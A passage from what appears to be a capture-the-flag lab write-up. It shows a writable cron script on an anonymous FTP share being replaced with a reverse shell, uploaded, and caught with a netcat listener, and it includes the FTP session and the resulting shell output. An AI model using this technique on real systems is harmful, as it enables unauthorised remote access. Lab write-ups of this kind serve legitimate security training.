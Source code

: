 So it seems like this script is a cronjob that runs after a particular time interval and adds the output into the ``removed_files.log` file.

In that case we can replace the content of the file to a reverse shell in order to obtain a shell on the target machine. We can get the script from Pentest Monkey.

![1](https://github.com/Knign/Write-ups/assets/110326359/dbccddc3-bde9-4aab-b2d1-f7db50e37bbd)


![2](https://github.com/Knign/Write-ups/assets/110326359/2473fd0f-7229-4715-919f-5037d31d1561)


Once the `clean.sh` file has been modified, we can log back into the FTP server and upload the file using the `put` command.

```
$ ftp anonymous@10.10.94.176
Connected to 10.10.94.176.
220 NamelessOne's FTP Server!
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||24116|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|    56        0.05 KiB/s    --:-- ETA
226 Transfer complete.
56 bytes sent in 00:00 (0.21 KiB/s)
```

Now all we have to do is set up a `nc` listener and wait.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
```

After a while we would have connected to the target machine using our reverse shell.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.94.176] 42680
bash: cannot set terminal process group (1476): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
```

Let's get the user.txt flag.
